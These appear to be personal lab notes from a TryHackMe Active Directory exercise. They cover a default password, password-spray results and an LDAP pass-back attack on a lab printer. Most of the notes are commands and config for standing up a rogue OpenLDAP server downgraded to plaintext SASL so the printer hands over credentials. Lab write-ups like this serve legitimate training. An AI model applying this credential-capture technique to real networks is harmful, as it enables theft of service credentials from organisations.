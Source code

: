 ### Default Password 
1. Organisation's initial onboarding password, which seems to be` Changeme123`
### Password Spray 
![[Pasted image 20250630064610.png]]

Creds Found:
	1. hollie.powell
	2. heather.smith
	3. gordon.stevens
	4. georgina.edwards

# LDAP Pass-back Attacks

[http://printer.za.tryhackme.com/settings.aspx](http://printer.za.tryhackme.com/settings.aspx)
![[Pasted image 20250630070019.png]]

on NC

```sh   
	[thm@thm]$ nc -lvp 389
	listening on [any] 389 ...
	10.10.10.201: inverse host lookup failed: Unknown host
	connect to [10.10.10.55] from (UNKNOWN) [10.10.10.201] 49765
	0?DC?;
	?
	?x
	 objectclass0?supportedCapabilities
	      
```


# Hosting A Rogue LDAP Server
1. The `supportedCapabilities` response tells us we have a problem.
2. Essentially, before the printer sends over the credentials, it is trying to negotiate the LDAP authentication method details. It will use this negotiation to select the most secure authentication method that both the printer and the LDAP server support.

3. If the authentication method is too secure, the credentials will not be transmitted in cleartext.
4. We will need to create a rogue LDAP server and configure it insecurely to ensure the credentials are sent in plaintext.


```rb
sudo pacman -Syu openldap
sudo systemctl enable slapd
sudo systemctl start slapd



```
Create a basic LDIF config file base.ldif


```rb
dn: dc=za,dc=tryhackme,dc=com
objectClass: top
objectClass: dcObject
objectClass: organization
o: za.tryhackme.com
dc: za

dn: cn=admin,dc=za,dc=tryhackme,dc=com
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator
userPassword: changeme

```
Then load it into the database:


```rb
sudo slapadd -v -l base.ldif
sudo chown -R ldap:ldap /var/lib/openldap/openldap-data
sudo systemctl restart slapd

```
**Make It Vulnerable (SASL Downgrade**

Create the `olcSaslSecProps.ldif`:
```rb
# olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred

```
THEN APPLY 
```rb
sudo ldapmodify -Y EXTERNAL -H ldapi:/// -f olcSaslSecProps.ldif
sudo systemctl restart slapd

```
**Verify Supported SASL Mechanisms**

```sh
ldapsearch -H ldap://localhost -x -LLL -s base -b "" supportedSASLMechanisms

	dn:
		supportedSASLMechanisms: PLAIN
		supportedSASLMechanisms: LOGIN

```
